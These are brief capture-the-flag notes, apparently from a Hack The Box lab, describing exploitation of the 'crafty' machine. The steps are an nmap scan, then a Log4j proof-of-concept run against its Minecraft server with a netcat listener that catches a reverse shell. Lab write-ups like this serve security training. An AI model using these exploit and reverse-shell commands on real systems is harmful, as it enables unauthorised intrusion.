

# bizness

10.10.11.252

# crafty

Open a website at 80, it has a mention o play.crafty.htb
Runs on IIS so is a windows machine

nmap -p$ports -sV -sC -A 10.10.11.249
we need to downlooad mincraft on my kali system!

Minecraft had a log4j vuln

python3 poc.py--userip 10.10.14.171 --webport 80 --lport 4444

rlwrap nc -lvn 4444

Then we simply input the url in the message box of the game server
and get a reverse shell
then use the java fle found in the sytem to revers engineer through ghidra

